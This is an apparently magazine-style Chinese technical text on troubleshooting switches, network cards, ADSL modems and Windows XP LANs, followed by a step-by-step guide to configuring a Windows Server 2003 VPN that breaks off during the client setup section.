以上简单地介绍了交换机的硬件故障和软件故障的各个情况，除此之外还有一些外部因素也会导致交换机的故障，如由于病毒或者黑客攻击等情况，有可能网络之外的某台主机向网内计算机所连接的端口发送大量不符合封装规则的数据包，造成交换机处理器过度繁忙，致使数据包来不及转发，进而导致缓冲区溢出产生丢包现象。还有一种情况就是广播风暴，它不仅会占用大量的网络带宽，而且还将占用大量的CPU处理时间。网络如果长时间被大量广播数据包所占用，正常的点对通信就无法正常进行，网络速度就会变慢或者瘫痪。

##### （2）交换机的排障方法

在网络的维护中，故障的排除是网络管理员的重要工作之一。网络故障千变万化，不同的故障会有不同的解决方法，但解决故障的第一步却都是要找到故障原因所在。要找到故障的原因，我们可以使用多种排障手段，如排除法、对比法、替换法等。

所谓排除法，是对现有故障出现的原因一一进行分析，罗列出所有可能导致故障的因素，并对这些因素一一进行排除。在这些可能导致故障的因素中，首先对可能性比较大的进行检测，这样在一定程度上可以缩短故障排除的时间以提高工作效率。使用排除法需要有丰富的网络维护经验，对常见的网络故障有一定的熟悉程序。若是新手，对常见网络故障一无所知，那对故障原因的分析就无从说起了。

对比法是一种不大为人使用的排障手段，使用对比法是将故障交换机同正常交换机进行对比，这种方法简单有效，尤其是系统配置上的故障，只要简单地对比一下就能找出配置的不同点。但使用对比法在排除硬件故障时就显得有些力不从心了。

替换法是在排除电脑故障时使用得比较多的一种手段，其不仅仅可用于对交换机的故障排除，也使用于其他电脑故障。替换法是指使用正常的交换机部件来替换可能有故障的部件，从而找出故障点的方法。它主要用于硬件故障的诊断，但需要注意的是，替换的部件必须是相同品牌、相同型号的同类设备才行。

由于交换机故障现象多种多样，在排除故障时虽没有固定的操作步骤，但我们还是可以依照一定的规则来对故障进行分析，这个规则只有十六个字，那就是“由远到近，由外而内，由软到硬，先易后难”。

#### 2. 网卡常见故障和排障方法

网卡简称网络接口卡（Network Interface Card, NIC），是计算机局域网中最重要的连接设备之一，每台计算机都需要通过网卡接入网络。当网卡出现故障，将会直接导致计算机无法连接网络，下面就针对网卡的常见故障及排除方法作一介绍。

##### （1）网卡与主板接触不良

这个问题主要是在一些使用外置网卡的计算机上出现，当网卡使用过久或经常插拔网卡，会导致网卡上的“金手指”被氧化或脱落，网卡接触不良的表现是在计算机中有时能找到网卡，有时又不能找到网卡。遇到这类故障，首先从主板中取下网卡，用橡皮擦对网卡的金手指部分进行清洁，然后再插到主板上，这样通常都能解决因网卡接触不良的所导致的问题。若仍不能解决问题，那就得考虑是否应该更换网卡了。

##### （2）IRQ中断冲突

由于网卡在安装时，网卡的中断请求（IRQ）、基本I/O地址在默认状态下都是使用的随卡出厂值。而如果网卡所使用的IRQ中断被其他硬件设备所占用，那么就会出现设备冲突，导致网卡不能正常使用。要解决IRQ中断冲突，需要更改网卡的IRQ值。

打开“设备管理器”窗口，在“网络适配器”分支下右击网卡名称，接着在弹出的菜单中选择“属性”，打开“网卡属性”对话框。然后在该对话框中选择“资源”选项卡，在该选项卡的“资源设置”列表中就可看到网卡的IRQ值。如果当前网卡的IRQ中断与其他设备有冲突，那么在“冲突设备列表”中会显示出与网卡冲突的设备，此时在“资源设置”列表中选择“中断请求”，然后点击“更改设置”按钮就可对网卡的IRQ值进行修改。如果当前网卡与其他硬件设备无冲突，“更改设置”按钮将呈灰色，为不可用状态。

##### （3）网线故障

网线本身的质量，还有水晶头（RJ-45网线插头）的制作水平都会影响网卡的工作状态，很多莫名其妙的网卡故障常常是由些造成的。除了选用更好的双绞线之外，还要注意水晶头与网卡接口之间的接触是否良好，以及水晶头内的数据线排序是否符合国际网线制作标准568A和568B。

##### （4）驱动程序故障

目前大多计算机中使用的都是RTL8139网卡，在Windows 2000/XP系统中都会自动为其安装驱动程序，因此使用RTL8139的网卡一般不会因驱动程序而导致网卡故障。而对于一些使用杂牌网卡的计算机则经常会出现驱动程序故障，这是因为这类网卡的驱动程序多是通常网络下载安装的，而某些驱动程序与Windows的兼容性不好，因此为出现驱动程序不能安装或安装后网卡仍不能使用的情况。对于这类故障，一是查找网卡厂商的官方网站，看是否能找到官方驱动程序，另外就是更换网卡了。

#### 3. 典型网卡故障解决实例

在前面对网卡的几种常见故障进行了介绍，多是网卡的硬件故障，下面再向大家介绍几个常见的网卡软件故障，网卡的软件故障是出现最频繁，也是让许多新手最头痛的故障之一。希望通过以下的几个网卡故障解决实例，让新手对网卡故障的解决有一个了解。

##### （1）更换网卡插槽而导致网卡无法使用

网卡是PCI接口，在主板上也有多个PCI插槽可供使用，当网卡更换PCI插槽并重新启动计算机后，计算机通常都会自动查找新硬件，并为其配置已有的网卡驱动程序。而有时因为这个操作，在查看网卡属性时，发现在原来的网卡名称后面添加了“#2”的标志，而此时网卡在“设备管理器”中显示正常，就是不能上网，其实这是因为设备驱动程序紊乱而导致的问题。

要解决这个问题，可在“设备管理器”窗口的“网络适配器”分支下用鼠标右键单击网卡名称，然后选择“卸载”菜单项将其删除。接着在菜单栏中依次选择“操作”→“扫描硬件改动”菜单项，这样系统会自动扫描计算机

##### （2）‘找不到RTL8139.SYS文件’错误

出现‘找不到RTL8139.SYS文件’的错误提示主要是在使用Windows 98的计算机中，这是因为Windows 98的驱动程序安装功能不是很好，不能自动寻找硬件的驱动程序，需要手动选择驱动程序的路径，如果所选择的驱动程序有缺损，就会出现这样的提示。
对于这种情况，可在安装网卡驱动程序时选择‘指定位置’选项，而不能选择让系统自动搜索驱动程序所在路径。

##### （3）安装网卡驱动后系统启动速度变慢

这是因为在安装了网卡驱动后，没有为其配置网络参数所致，由于系统在启动时会自动搜索当前计算机是否配置有IP地址，若没有系统则会自动为其分配一个IP，而这个过程需要花费一部分时间，因此我们在启动时就会觉得很慢了。
在‘网上邻居’属性中为计算机设置IP地址、子网掩码、网关等网络参数，设置完毕后重新启动计算机，这样就不会再出现启动速度过慢的问题了。

> “授人以鱼，不如授人以渔”，我们在排除电脑故障时，不可能每个问题都能找到详细的解决步骤，在这里举的几个网卡故障实例仅仅是诸多故障中的一小部分，在解决故障时关键是得学会如何查找故障的起因，这是每个电脑维护人员所必备的维护知识。

#### 4. ADSL Modem常见故障和排障方法

Modem是大家平常上网十分常用的硬件设备，现在早就已经进入宽带网络时代，56KB的老式Modem也被ADSL Modem所替代，但是我相信大家在平时拨号上网的时候，肯定遇到了这样那样的Modem故障，以下总结了一些关于ADSL Modem故障及排除方法来和广大读者共同分享。

##### （1）Modem的Link灯一直处于闪烁状态

通过查看ADSL Modem中的指示灯可以很直观地对Modem故障进行排除，在ADSL Modem上主要有Power、ADSL LINK、ADSL ACT、LAN LINK、LAN ACT这几个指示灯，其中Power是表示用户是否给Modem加电，若不亮或闪烁则需要检查电源是否连接正常或Modem内部电源连接线路是否有损坏；ADSL LINK是表示用户的Modem与网通局内的Modem的物理连接是否已经连接好，一般在开启Modem后，LINK灯闪烁表示正在与电信Modem进行连接，LINK灯常亮后方可进行ADSL拨号上网，上网过程中也要保持LINK灯常亮，若开始时LINK不能定住，或上网过程中LINK灯偶闪而造成不可上网或掉线，则表示外线不好；LAN LINK是表示Modem与计算机或局域网的连接是否正常；而ADSL ACT和LAN ACT在没有进行数据传输时，则不亮。
在对ADSL Modem中的这些指示灯有所了解后，我们再来看看Link灯一直闪烁的问题。我们先来做一个测试，将连接到ADSL Modem上的电话线拔掉，此时原本常亮的ADSL LINK指示灯就不亮了，这说明ADSL LINK指示灯的亮与不亮，是由电话线和Modem的端口决定的。那么ADSL Modem的LINK指示灯处于闪烁状态，说明有时能进行连接，但连接不稳定，这有可能是电话线路的信号不是很稳定，此时可以将电话线连接到电话机上，检查电话能否打出。除了电话线路的问题，也有可能是ADSL Modem电话线连接端口的问题，如果在排除了电话线路的问题后，故障依旧，那就说明是电话线连接端口的问题，这时需要置换ADSL Modem或更换端口。

##### （2）信号灯常亮、拨号连接正常，却不能浏览网页

出现这类问题，应该是软故障了，因为信号灯常亮，而且拨号连接也正常，那说明Modem和线路都没有问题，此时我们需要从计算机的网络配置方面着手检查。
通常情况下，使用ADSL Modem拨号上网即便是不设置IP地址、子网掩码、DNS都是能够上网的。但如果出现信号灯常亮、拨号连接又正常，偏偏就是不能浏览网页，那么就可以试着一一配置这些参数，其中最重要的是DNS服务器地址，这里设置的是电信局的DNS地址，一般电信局都有两个DNS地址，如果其中一个DNS地址不能使用，可以使用另外一个DNS地址。
如果计算机上安装了防火墙软件，有必要对防火墙软件中的参数进行检查，因为有些防火墙软件会在默认不提示的情况下，阻止某些硬件或软件的使用，最直接的办法就是关闭防火墙软件，再进行测试。
倘若上面的方法仍然不能解决问题的话，再检查一下能否进入ADSL Modem设备的控制界面，ADSL Modem中的控制界面是对Modem的一些参数进行设置，如有些Modem可以设置一些参数来实现路由上网。如果不能进入设置界面的话，就说明是系统问题，可以尝试重新安装系统，并正确配置好相关的网络参数，包括IP地址和DNS服务器。一般来说，只要重新安装好系统以及设置好网络参数，都能够访问到ADSL Modem设备的控制界面，而只要能进入ADSL Modem设备的控制界面，一般都能打开网页页面。

##### （3）LINK灯常亮，不能拨号上网

如果LINK灯常亮，说明电话线路和Modem的电话线连接端口都没有问题，此时我们首先还是需要首先检查ADSL Modem上的其他指示灯。在前面说到，Modem上的LAN LINK指示灯是表示Modem与计算机或局域网的连接是否正常，如果LAN灯不亮，就说明ADSL Modem设备与网卡的连接有问题，分别检查计算机与Modem连接线两端是否连接好，若连接正常，则需要更换网卡再进行测试。要是发现LAN灯常亮而不能正确拨号时，可以将原来的拨号软件从系统中彻底卸载掉，然后重新按照正确的方法来安装一次拨号软件，并确保使用的用户名和密码正确。要是还不能进行拨号连接的话，就需要将ADSL Modem设备上的复位按下去（该复位键位于Modem后面，在复位键下方有一个名为Reset的标识），这样就能将ADSL Modem所有的网络参数恢复为默认设置值。

##### （4）拨号连接正常，访问网页速度很慢

首先要明确上网速率是时快时慢，还是一直很慢。如果一直很慢，速率在500kbps以下，一般为线路问题，可以请电信售后人员解决，让机房人员查看衰减，物理连接速率，最大限制速率等（用户在布线时尽量避免线过长或是接头过多的状况）通过顺线或查线、换线等解决；另外检查用户计算机是否感染病毒或是硬盘占用空间过大也会造成速度慢的问题，可以通过杀毒或删除不必要的文件扩大空间等解决。

##### (5) 信号灯常亮，拨号连接频繁掉线

ADSL掉线主要有以下几种原因：接地线质量有问题、线路有干扰、用户线路距离远、网卡质量等。其中：接地线质量问题是指计算机产生的静电影响了ADSL的传输速率甚至掉线，可接一根地线来解决；线路干扰是在用户线路附近有强信号干扰源，对用户线路产生强干扰，另外电源线不可与ADSL线路并行，以防发生串扰导致ADSL故障；用户线路距离远则需要用ADSL测试仪测试信号衰减和干扰强弱，找出比较好的线路替换。
以上几种故障原因都需要专业人士解决，而除此之外，ADSL频繁掉线也有可能是拨号软件所致。如ADSL连接还在，但任何网络应用都不能使用，手动断开连接却无法断开，需重启电脑后才可重新上网，但大概10分钟左右又出现一样的故障，周而复始。这就有可能是拨号软件的问题，此时可以到星空网站下载“星空极速”拨号软件，安装后使用空极速拨号软件进行拨号上网。

### 二、局域网故障解决方案

局域网给我们带来的好处是毋庸置疑的，当局域网工作正常时，我们可以享受其带来的便利，可是一旦局域网出现故障，烦恼也随之而来。由于许多局域网的架设环境相对复杂，所以在解决局域网故障时就不像处理系统故障那么简单了，局域网故障的排除需要管理员具有丰富的局域网知识和维护经验，下面就来介绍一下局域网故障排除的常见手段及典型案例。

#### 1. Windows XP下局域网故障的检测方法

有丰富的局域网维护经验，对局域网故障的排除是有很大帮助的，但除此之外，在Windows XP中也提供了一些故障检测、诊断工具，通过这些工具我们就能检测出一些简单的网络故障。

##### (1) 使用“自动化”网络诊断

在Windows XP中有一个“网络诊断”工具，通过该工具可以对系统进行扫描，收集关于您的硬件、软件和网络连接的信息，从而对网络故障进行诊断。
依次选择“开始→程序→附件→系统工具→系统信息”命令，打开“系统信息”对话框。在该对话框的菜单栏中依次选择“工具→网络诊断”，此时会打开“帮助和支持中心”的“网络诊断”界面（如图1）。
在该界面中共有“扫描您的系统”和“设置扫描选项”两个功能项，选择“设置扫描选项”可对要执行的操作和扫描分类进行选择，通常都是直接使用系统的默认扫描选项，直接点击“扫描您的系统”按钮对网络进行扫描。在扫描过程中，系统将调用Ping等命令对网关、DNS服务器等进行探测和查错。扫描结束后，展开所有标有红色“失败”的选项，即可快速诊断出故障的所在之处了。


##### (2) TCP/IP故障诊断工具——IPConfig

IPconfig命令用于显示本地网卡的信息，通过该命令可以查看当前网卡的MAC地址、IP地址、子网掩码、网关等信息，在Windows 9x和Windows 2000/XP中都可以使用该命令。但在Windows 9x系统中，除了可以使用IPconfig命令外，还可以使用Winipcfg命令来查看这些信息，而且是窗口式的界面。
通过IPConfig提供的信息，可以确定存在于TCP/IP属性中的一些配置上的问题。例如，使用“IPConfig /all”就可以获取主机的详细配置信息，其中包括IP地址、子网掩码和默认网关、DNS服务器等信息。
例如，网络连通发生故障，而网卡的IP地址是自动分配的，此时可以使用“ipconfig /release 1”命令先去除网卡（适配器1）的动态IP地址，接着再使用“ipconfig /renew 1”命令为网卡重新动态分配IP地址。

##### (3) 连接故障诊断工具——Ping

Ping命令是大家使用得最多的一个网络测试工具，通过该工具可以对目标计算机的连通性进行诊断测试。例如，在局域网中有一台计算机的IP地址为“192.168.1.1”，那么就可使用“Ping 192.168.1.1”命令来检测该计算机是否正常连接到局域网中。如果Ping命令返回的信息为“time out”则表示无法与该计算机建立连接，也就是说该计算机没有连接到局域网中，而如果返回类似“Reply from 192.168.1.1: bytes=32 time<1ms TTL=128”的信息，则表示连接正常。
下面我们再来谈谈Ping命令正常连接到目标计算机后返回的一些参数，其中：“bytes=32”表示测试中发送的数据包大小为32个字节；time的值表示与对方主机往返一次所用的时间；“TTL=128”表示当前测试使用的ttl（time to live）值为128，通过TTL值我们可以判断出目标计算机所使用的操作系统，例如，UNIX及类UNIX操作系统返回的TTL值为255，而微软Windows NT/2000操作系统返回的TTL值则为128。
虽然网络故障多种多样，但也并非无规律可循，随着经验的不断丰富，大家排除网络故障的能力将会越来越高。

#### 2. 解决Windows XP不能访问局域网的故障

在以前使用Windows 98组建的局域网中，我们只需要配置几个网络参数就能非常简单地访问局域网中任何一台计算机上的资源，但随着Windows 98系统逐渐被淘汰，Windows XP已成为了局域网中使用得最多的操作系统。在使用Windows XP组建的局域网中，我们经常会遇到这样的问题，通过网上邻居能够看到局域网中使用Windows XP操作系统的计算机，但对其访问却无法查看该计算机中的共享资源，这是一个很典型的 Windows XP 局域网故障。

出现这个故障的原因主要有二，一是 Windows XP 中的 Guest 账户被禁用，二是系统拒绝 Guest 用户访问该计算机。这两种原因都与 Guest 账户有关，这是因为局域网中的其他计算机在访问使用 Windows XP 系统的计算机时，所使用的都是 Guest 账户，所以如果 Guest 账户被禁用，或拒绝 Guest 用户访问计算机，那理所当然地就不能对该计算机进行访问了。

解决的方法是：首先在局域网中使用 Windows XP 系统的计算机上依次选择“开始”→“设置”→“控制面板”→“管理工具”→“计算机管理”命令，打开“计算机管理”窗口。在该窗口中依次展开“系统工具”→“本地用户和组”→“用户”目录。此时在右侧的列表中会列出当前计算机的所有用户账户（如图 2），Guest 账户也在其中。如果 Guest 账户前的图标上有个红色的小叉，说明 Guest 账户被禁用了。此时在该账户上单击鼠标右键，然后在弹出的菜单中选择“属性”菜单项，在打开的对话框中取消“账户已停用”复选框的选择，然后点击“确定”按钮。再回到“计算机管理”窗口中，此时 Guest 账户前的红色小叉就消失了。


开启了 Guest 账户之后，接下来还得检查组策略的“拒绝从网络访问这台计算机”策略中是否已拒绝了 Guest 账户。依次选择“开始”→“运行”命令，在“运行”对话框中输入“gpedit.msc”命令打开“组策略”窗口。在“组策略”窗口中依次展开“计算机配置”→“Windows 设置”→“安全设置”→“本地策略”→“用户权利指派”目录，此时在右侧的列表中就可看到“拒绝从网络访问这台计算机”策略了。双击该策略，打开“拒绝从网络访问这台计算机 属性”对话框，在对话框的列表中可看到 Guest 账户已被拒绝（如图 3）。选择 Guest 账户，然后点击“删除”按钮，然后再重新启动计算机，这样局域网中的其他计算机就能访问这台计算机上的共享资源了。


#### 3. 局域网网速变慢的故障分析

局域网故障也可分为硬故障和软故障，相对来说，硬故障比软故障容易解决得多，硬故障主要是指连接局域网的网络设备出现问题，例如，交换机或网卡损坏，我们只需要检查交换机和网卡上的指示灯是否正常即可诊断出故障所在。而软故障则是比较让人头痛的，例如，网络连接正常，但网速却很慢，要解决这样的故障就需要费一番工夫了。

局域网网速变慢，主要可以分为病毒作祟和网络设备故障。对于病毒所致的局域网故障，笔者是深受其害。笔者所工作的公司共有五、六台电脑，某一天局域网中的计算机忽然出现了一个奇怪的问题，有时 A 计算机能访问网络，B 计算机不能访问网络，而 B 计算机能访问网络时，C 计算机又不能访问网络了，而有时所有的计算机却又能正常访问网络，网络中的计算机时而正常，时而又不能访问，而其罪魁祸首就是一种网络病毒。

这类通过局域网散发的蠕虫病毒对网络速度的影响非常严重，危害性极大。这种病毒导致被感染的用户只要一上网就不停地往外发送数据，病毒选择用户个人电脑中的随机文档附加在用户机子的通讯簿的随机地址上进行发送。成百上千的这种垃圾信息有的排着队往外发送，有的又成批成批地被退回来堆在服务器上。造成个别骨干互联网出现明显拥塞，网速明显变慢，使局域网近于瘫痪。因此，要防止这类病毒的危害，必须及时升级所用杀毒软件；计算机也要及时升级、安装系统补丁程序，同时卸载不必要的服务、关闭不必要的端口，以提高系统的安全性和可靠性。

而如果已经遭遇了这类病毒，首先得关闭局域网中的交换机，让局域网中的所有计算机处于非连接状态，然后再用最新杀毒软件对所有计算机进行杀毒。在确保所有的计算机中均没有病毒后，再连通网络。

以上所说的是导致局域网网速变慢的一个“软”故障，而除此之外，很多时候网速变慢都是网络设备所致。

##### （1）网线问题导致网速变慢

双绞线是由四对线严格而合理地紧密绕和在一起的，以减少串扰和背景噪音的影响。而不按正确标准制作的网线，存在很大的隐患，有的开始一段时间使用正常，但过一段时间后就会出现性能下降，网速变慢的现象。所以在制作网线时一定要按照 T586A 和 T586B 标准来压制。

##### （2）广播风暴导致网速变慢

作为发现未知设备的主要手段，广播在网络中有着非常重要的作用。然而，随着网络中计算机数量的增多，广播包的数量会急剧增加。当广播包的数量达到 30% 时，网络传输效率会明显下降。当网卡或网络设备损坏后，会不停地发送广播包，从而导致广播风暴，使网络通信陷于瘫痪。

##### （3）端口瓶颈导致网速变慢

实际上路由器的广域网端口和局域网端口，服务器网卡都可能成为网络瓶颈。网络管理员可以在网络使用高峰时段，利用网管软件查看路由器、交换机、服务器端口的数据流量，来确定网络瓶颈的位置，并设法增加其带宽。

##### （4）回路问题导致网速变慢

一般当网络规模较小，涉及的节点数不多结构不复杂时，这种情况很少发生。但在一些比较复杂的网络中，容易构成回路，数据包会不断发送和校验数据，从而影响整体网速，并且查找比较困难。为避免这种情况的发生，要求布线时一定要养成良好的习惯。

## 轻松实现企业远程办公

文/张金贵

作为一个现代化的企业，其办公的概念已不仅仅局限于在办公室，借助于互联网，员工可以实现在家里、在外地，甚至全球的任一角办进行网上办公，企业可以利用自己内部的局域网和门户网站与分布在各地的办事处、出差在外以及在家里工作的人员进行及时有效的沟通，从而提高工作效率，让信息化给企业管理带来更大的效益。由于Windows Server 2003是一个可靠的网络操作系统，可以按照网络需要以集中或分布的方式处理各种服务器角色，因此是许多企业搭建网络的首选操作系统，它功能强大，使用方便，具有多种版本，可以满足不同用户的需求。下面我们就来了解如何在Windows Server 2003企业版中实现企业远程办公以及建立企业门户站点。

### 一、用VPN实现远程办公

现在的企业一般都建立起了内部的局域网，但随着业务扩大，有许多企业在外地设立了办事处，平时出差的人员或在自己家里工作的员工都需要与总部的局域网连接，以获得总部最新的资料，如何让外部的电脑访问总部的内部网络呢？方法有两种：一种是到电信部门租用专门的线路，这个费用相当高昂，一般的企业难以承受这种费用；另一种方法就是使用VPN（虚拟专用网络）技术，它不需要租用专门的线路，也不需要添加其他硬件设备，只要你的电脑可以上网，就可以访问公司内部网络，这种物美价廉的方案已经得到越来越多企业的青睐。

下面就来学习如何在Windows Server 2003中进行VPN服务器的建立，并且完成客户端的设置。

#### 1. VPN概述

VPN是英文Virtual Private Network的缩写，翻译成中文就是“虚拟专用网络”，它是专用网络（以前的DDN专线或者电话拨号连接的线路）的延伸，主要作用是利用公用网络（主要是互联网）将多个私有网络或网络节点连接起来。通过VPN可以模拟点对点专用链接的方式通过共享或公共网络在两台计算机之间发送数据。VPN的工作原理就是在两台直接和公用网络连接的计算机之间建立一条专用隧道，在隧道的发起端（即服务器端），用户的私有数据通过封闭和加密之后在Internet上传输，到了隧道的接收端（即客户端），接收到的数据经过拆封和解密之后安全地到达用户端。因此，这种方式可以在互联网上安全地传送数据来实现基于Internet的联网操作。这样，在家里或者出差在外的人员就可以用VPN连接建立到单位服务器的远程访问连接，对于企业在各地设立的办事处或分公司也可以用VPN与总公司连接起来。VPN的优点主要有以下几种。

- 节省费用：VPN连接使用了公共网络（即互联网），用户只需负担本地上网的费用即可，不用像租专线那样要承担昂贵的线路租用费用。另外，用户无需额外增添设备，只要两台电脑可以上网就能建立VPN连接。
- 安全性高：虽然是在互联网上传递数据，但通过VPN传递的数据通过封装、加密等方式，可以保证数据传输的安全。同时，因为VPN是加密的，VPN数据包在互联网上传输时，互联网上的用户只看到公用的IP地址，看不到数据包内包含的专有网络地址，因此，远程专用网络上指定的IP地址是受到保护的。
- 提高整个企业网的互联性：通过VPN联网后的用户，相当于处在同一个局域网中。如果是通过VPN拨号方式连接到VPN服务器，则VPN客户端可以访问VPN服务器和VPN服务器所属的局域网；如果两个服务器（或多个服务器）通过VPN路由方式互相连接，则两个服务器（或多个服务器）所属的局域网可以互相访问。
- 便于网络管理：使用VPN大大降低了网络的复杂程度，VPN用户的网络地址可以由企业内部进行统一分配，VPN组网方便灵活，另一方面，企业甚至可以不必建立自己的广域网和接入网维护系统，而将这一繁重的任务交由专业的ISP来完成。

#### 2. 企业VPN连接方案

下面我们以某企业建立VPN联网的实例来了解VPN的具体建立方法。该企业VPN组网及应用分析如下：

##### （1）实现目的

单位领导或出差人员在外地或家里可以随时访问单位内部办公局域网，查询数据资料。

各地办事处与公司连接，可以随时了解公司内部情况，查询有关资料。

合作伙伴的网络与公司的网络连接起来，可以根据不同的访问权限查看不同的资料。

VPN网络拓扑图如图1。

##### （2）实现效果

各地办事处与公司网络连接起来，可以同步掌握公司消息。

领导或员工无论出差或在家中办公，可以随时接入企业


业网，实现无时间、地点限制的办公，提高了工作效率。与合作伙伴的网络连接起来，根据其不同的合作性质，分配不同的网络接入权限，让其合作伙伴只能看到相应的资料。

#### 3. VPN服务器的配置

下面我们就开始配置公司局域网中的 VPN 服务器，只有先配置好这个 VPN 服务器，其他用户才能通过它连接到公司的局域网中。由于 VPN 服务器是连接外部和内部网的一个接入服务器，所以在 VPN 服务器上必须安装两块网卡，其中一块用来连接互联网，并且具有一个公司 IP 地址，在本文中我们称它为网卡 A；另一块网卡用来连接公司内部的局域网，它具有内部 IP 地址，我们称它为网卡 B。

##### （1）配置路由和远程访问服务

在 Windows Server 2003 中，VPN 被集成到了“路由和远程访问服务器”控制中，在安装 Windows Server 2003 企业版时，路由和远程服务是默认安装好的，只不过没有激活，因此，我们要激活它，方法如下。

- 第一步：单击“开始→管理工具→路由和远程访问”命令，打开“路由和远程访问”窗口，在“服务器状态”下有一个以当前计算机名命名的项目，右键单击该项目名称，或者单击“操作”菜单，在弹出的菜单中选择“配置并启用路由和远程访问”命令（见图2），出现“路由和远程访问服务器安装向导”对话框，单击“下一步”按钮。


- 第二步：在出现的“配置”画面中，选择“远程访问（拨号或 VPN）”选项，单击“下一步”按钮（见图3）。


- 第三步：在“远程访问”画面中，选择“VPN”选项，单击“下一步”按钮。
- 第四步：在“VPN 连接”画面中，要选择连接到 Internet 所用的网卡，这里我们选择连接到互联网上的网卡，也就是我们前面约定的网卡 A，同时选中“通过设置静态数据包筛选器来对选择的接口进行保护”选项，然后单击“下一步”按钮（见图4）。


- 第五步：出现“IP 地址指定”对话框，这个步骤主要是确定远程客户端是从局域网上的动态主机配置协议服务器（DHCP）接收 IP 地址，还是从正在配置的远程访问 VPN 服务器接收 IP 地址。如果在局域网上有 DHCP 服务器，则远程访问 VPN 服务器就可以同时从 DHCP 服务器合用 10 个地址，并将这些地址指派给远程客户端。如果局域网上没有 DHCP 服务器，则远程访问 VPN 服务器可自动生成 IP 地址，并将它们指派给远程客户端。如果希望远程访问 VPN 服务器从指定的范围指派 IP 地址，则必须确定该范围。这里我们选择“来自一个指定的地址范围”选项，然后单击“下一步”按钮。
- 第六步：指定 IP 地址范围，这些 IP 地址将分配给 VPN 客户机。单击“新建”按钮，在弹出的“新建地址范围”对话框中输入“起始 IP 地址”和“结束 IP 地址”（见图5）。注意，


为了确保连接后的VPN网络能同VPN服务器原有局域网正常通信，它们必须同VPN服务器的IP地址处在同一个网段中。例如，VPN服务器的IP地址为“192.168.1.2”，则指定的IP地址应该从“192.168.1”开头。输入IP地址范围后，单击“确定”按钮，返回“地址范围”指定对话框，再单击“下一步”按钮。
- 第七步：出现“管理多个远程访问服务器”对话框。如果计划在局域网上安装多个VPN服务器、无线访问点或其他RADIUS客户端，则添加RADIUS服务器非常有用。否则，选择默认的“否，使用路由和远程访问来对连接请求进行身份验证”选项即可。我们选择的就是这一个选项，该选择将服务器配置为使用Windows身份验证、Windows记账和本地存储的远程访问策略，在本地对连接请求进行身份验证。单击“下一步”按钮。
- 第八步：显示路由和远程访问配置总结信息，如果配置有错误，可以单击“上一步”按钮返回重新设置，如果配置完全正确，则单击“完成”按钮。
- 第九步：弹出一个对话框，提示若要支持DHCP消息从远程访问客户端中继到DHCP服务器，则必须使用DHCP服务器的IP地址配置DHCP中继代理程序的属性。直接单击“确定”按钮，完成VPN服务的安装。

##### （2）赋予用户远程访问的权限

远程用户要想通过DHCP服务器的验证成功登录局域网，那就必须要获得VPN服务器授予的访问权限，因为在默认情况下，包括Administrator用户在内的所有用户均被拒绝拨入到VPN服务器，因此，我们必须要为相应的用户赋予拨入权限。操作如下。

- 第一步：单击“开始→管理工具→计算机管理”命令，打开“计算机管理”窗口。
- 第二步：在左边的窗口内依次展开“本地用户和组→用户”，则在右边的窗口中显示出本地计算机的所有用户，此时双击欲赋予远程访问权限的用户，打开“用户属性”对话框。
- 第三步：切换到“拨入”选项卡（见图6），在“远程访问权限（拨入或VPN）”选项组中选中“允许访问”选项。系统默认的“通过远程访问策略控制访问”选项将拒绝所有用户拨入到VPN服务器。


- 第四步：单击“确定”按钮，返回“计算机管理”窗口，结束赋予该用户拨入权限的工作。重复以上步骤，可为多个用户授予拨入权限。

#### 4. VPN客户端配置

上面我们对单位局域网中的VPN服务器完成了配置，并且给特定的用户赋予了拨入的权限，下面就需要在客户端进行配置，从而实现无论在家里、出差在外或在各地办事处都能通过VPN方式访问单位办公局域网，但前提是各个VPN客户机都要连入Internet。

由于Windows操作系统的版本较多，在不同版本操作系统下配置VPN的方式会略有不同，下面我们就介绍在最常用的Windows 98、Windows 2000、Windows XP下创建VPN连接的方法和步骤。

##### （1）在Windows 98中建立VPN连接

Windows 95、Windows 98不支持VPN连接，在Windows 98 SE和Windows 98 Me中支持VPN。在Windows 98 SE中，通常是通过拨号网络连接当地的ISP，然后再通过VPN连接访问远程的VPN服务器，这时需要配置一个Modem（调制解调器）和一条电话线，还需要一个上网的账号，它的具体操作步骤如下。

- 第一步：单击“开始→控制面板”，双击其中的“添加/删除程序”图标，打开“添加/删除程序属性”对话框。
- 第二步：在“组件”列表中选中“通讯”复选框，然后单击“详细资料”按钮，打开“通讯”对话框。
- 第三步：在“组件”列表中选中“虚拟专用网络”选项，然后单击“确定”按钮完成安装。安装过程中需要将Windows 98 SE安装盘放入光驱进行驱动程序的安装，安装完毕后，根据系统提示重新启动计算机。
- 第四步：安装虚拟专用网络后，打开Windows资源管理器，双击“拨号网络”中的“建立新连接”图标，打开建立新连接向导。
- 第五步：单击“下一步”按钮，显示“位置信息”对话框。“位置信息”需要当前位置的相关信息，在“目前所在地区（城市）代码”处输入本地的电话号码区号，然后单击“关闭”按钮继续，如果以前设置过位置信息，则系统会自动跳过这一步。
- 第六步：单击“关闭”按钮，显示“建立新连接”对话框，在“请输入对方计算机的名称”文本框中输入一个连接名（自己可以随意命名），在“选择设备”下拉列表中选择“Microsoft APN Adapter”选项，单击“下一步”按钮。
- 第七步：在“主机名或IP地址”对话框中输入远程VPN服务器公网IP地址（如202.103.56.41），这也就是单位局域网连接到互联网的IP地址，单击“下一步”按钮。
- 第八步：显示VPN连接的摘要信息，如果配置有错误的地方，可单击“上一步”按钮返回修改，否则，单击“完成”按钮，完成对VPN拨号网络的设置。

在Windows 98中使用VPN的步骤如下。

- 第一步：如果是通过电话线拨号上网，则需要先通过Modem连接当地的ISP，从而连接上互联网。
- 第二步：打开“拨号网络”，双击你上网建立的拨号连接，在打开的登录对话框中输入用户名、密码、电话号码，然后单击“连接”按钮，登录到互联网。
- 第三步：在打开的“拨号网络”中，双击刚才建立的VPN连接，打开VPN连接登录对话框，在“用户名”和“密码”文本框中分别输入VPN服务器为用户分配的用户名和密码，然后在“VPN服务器”文本框中输入VPN服务器的IP地址，单击“连接”按钮。
- 第四步：打开“用户登录”对话框，清空“登记域”文本框，然后单击“确定”按钮，开始登录网络，登录到VPN服务器后出现连接成功界面。
- 第五步：当VPN连接成功后，就可以访问单位远程的VPN服务器及VPN服务器所属的局域网了。

如果你使用的不是Modem，而是其他上网方式，如ADSL或小区宽带，只要你的计算机已经连接到Internet上，就可以直接双击“拨号网络”中建立的VPN连接来访问远程的服务器。

##### （2）在Windows 2000中建立VPN连接

在Windows 2000中配置VPN连接比在Windows 98中的配置要简单一些，具体操作步骤如下。

